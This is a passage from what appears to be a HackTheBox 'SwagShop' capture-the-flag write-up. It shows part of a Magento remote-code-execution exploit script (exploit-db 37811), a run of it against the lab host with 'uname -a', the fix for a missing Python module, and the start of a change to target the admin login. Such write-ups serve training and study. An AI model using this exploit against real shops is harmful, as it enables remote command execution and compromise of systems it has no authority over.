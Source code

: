 ```python
key = key.group(1)

request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)

payload = base64.b64encode(payload)
gh = md5(payload + install_date).hexdigest()

exploit = tunnel + '?ga=' + payload + '&h=' + gh

try:
    request = br.open(exploit)
except (mechanize.HTTPError, mechanize.URLError) as e:
    print e.read()
```

And we run this script:

```bash
python2 37811.py http://swagshop.htb/ "uname -a"
```

But we got a failure notice with no module named mechanize:

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SwagShop]
└─$ python2 37811.py http://swagshop.htb/ "uname -a"
Traceback (most recent call last):
  File "37811.py", line 7, in <module>
    import mechanize
ImportError: No module named mechanize

```

##### Install pip2

```bash
sudo apt install python-pip
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
```

```bash
pip2 install mechanize
```

##### alter the script

![[SwagShop-07.png]]

`mechanize` is a scriptable browser, and it’s complaining that there’s not login form with a password field. That’s because it’s trying to log into the base of the site. I’ll run it again, this time with the admin login page:
